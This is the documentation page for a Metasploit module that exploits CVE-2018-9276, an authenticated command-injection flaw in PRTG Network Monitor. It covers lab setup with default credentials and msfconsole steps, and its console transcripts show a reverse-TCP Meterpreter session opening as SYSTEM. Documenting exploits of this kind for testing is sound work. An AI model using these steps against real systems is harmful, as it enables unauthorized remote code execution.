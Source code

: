 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command injection vulnerability in PRTG Network Monitor product (CVE-2018-9276).

Notifications can be created by an authenticated user and can execute scripts when triggered. Due to a poorly validated input on the script name, it is possible to chain it with a user-supplied command, allowing command execution under the context of privileged user.

The module uses provided credentials to log in to the web interface, then creates and triggers a malicious notification to perform RCE using a Powershell payload.

This vulnerability affects versions prior to 18.2.39.

**Vulnerable Application Installation**

PRTG provides a trial version for free (https://www.paessler.com/prtg/download) but it is always updated to the latest version, which won't allow you to test for the vulnerability.

While a version history can be found on the vendor's website (https://www.paessler.com/prtg/history) it does not provide any download link. The solution I found to get old versions was to Google "PRTG Network Monitor 18 trial download" and hopefully found archived trial versions to download (ex : https://prtg-network-monitor.informer.com/versions/). There were not coming from the official website and no hash was provided by the vendor to verify the file integrity, so I made sure to execute them in a sandboxed environment.

Once downloaded the setup is pretty straightforward, a trial link to PRTG website is provided for a free trial license key to enter. Once deployed the service is available on port 80 with the default credentials `prtgadmin`/`prtgadmin`. Any configuration can be made through the web interface or with `PRTG Enterprise Console` (automatically installed). Note that you may need to wait a few minutes for the setup to complete totally.

PRTG Network Monitor is also available on the "Netmon" lab from Hack The Box, it is quite useful for testing because easy to deploy and reset, but requires a premium account (10£/month).

**Successfully tested on**

- PRTG Network Monitor 18.1.38.11958 on Windows 2012 R2 x64 (downloaded from https://prtg-network-monitor.informer.com/18.1)
- PRTG Network Monitor 18.1.37.13946 on Windows 2016+ x64 (on the Hack The Box machine)

## Verification Steps
1. Install the application
1. Start `msfconsole`
1. Do: `use exploit/windows/http/prtg_authenticated_rce`
1. Do: `set PAYLOAD windows/meterpreter/reverse_tcp`
1. Do: set `RHOST`, `LHOST` and HTTP-specific parameters if needed
1. Do: set `ADMIN_USERNAME` and `ADMIN_PASSWORD` with PRTG Network Monitor credentials (default `prtgadmin`/`prtgadmin`)
1. Do: `chek` 
1. **Verify** that you are seeing `The target is vulnerable.` in console.
1. Do: `run` 
1. **Verify** that you are seeing success logs in console (successfully logged in, created notification, etc..)
1. **Verify** that you are seeing `Sending stage to <TARGET>` in console.
1. You should get a shell

In my experience steps 10-12 may require a few tries to work because notifications are queued up before execution on the server. Augmenting `WfsDelay` to 30 seconds did the trick, so it is set by default.

## Options
**ADMIN_USERNAME**

PRTG Network Monitor's account that has the right to create Notifications (allowed by default on the initial account).

**ADMIN_PASSWORD**

The password associated with the specified username.

**VERBOSE**

Setting `VERBOSE` to `true` displays the raw Powershell payload in console for manual testing.

## Scenarios
Checking if a target is vulnerable based on the version in use :

```
msf6 > use exploit/windows/http/prtg_authenticated_rce 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/prtg_authenticated_rce) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf6 exploit(windows/http/prtg_authenticated_rce) > set LHOST y.y.y.y
LHOST => y.y.y.y
msf6 exploit(windows/http/prtg_authenticated_rce) > set ADMIN_USERNAME prtgadmin
ADMIN_USERNAME => prtgadmin
msf6 exploit(windows/http/prtg_authenticated_rce) > set ADMIN_PASSWORD prtgadmin
ADMIN_PASSWORD => prtgadmin
msf6 exploit(windows/http/prtg_authenticated_rce) > set VERBOSE true
VERBOSE => true
msf6 exploit(windows/http/prtg_authenticated_rce) > check

[*] Identified PRTG Network Monitor Version 18.1.37.13946
[*] x.x.x.x:80 - The target appears to be vulnerable.
```

Getting a shell on PRTG Network Monitor using a sufficiently privileged account credentials :

```
msf6 > use exploit/windows/http/prtg_authenticated_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/prtg_authenticated_rce) > set RHOST x.x.x.x
RHOST => x.x.x.x
msf6 exploit(windows/http/prtg_authenticated_rce) > set LHOST y.y.y.y
LHOST => y.y.y.y
msf6 exploit(windows/http/prtg_authenticated_rce) > set ADMIN_USERNAME prtgadmin
ADMIN_USERNAME => prtgadmin
msf6 exploit(windows/http/prtg_authenticated_rce) > set ADMIN_PASSWORD prtgadmin
ADMIN_PASSWORD => prtgadmin
msf6 exploit(windows/http/prtg_authenticated_rce) > run

[*] Started reverse TCP handler on y.y.y.y:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=zzzz)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to x.x.x.x
[*] Meterpreter session 1 opened (y.y.y.y:4444 -> x.x.x.x:49223) at 2021-01-18 11:04:22 +0100

meterpreter > getuid
Server username: AUTORITE NT\System
```
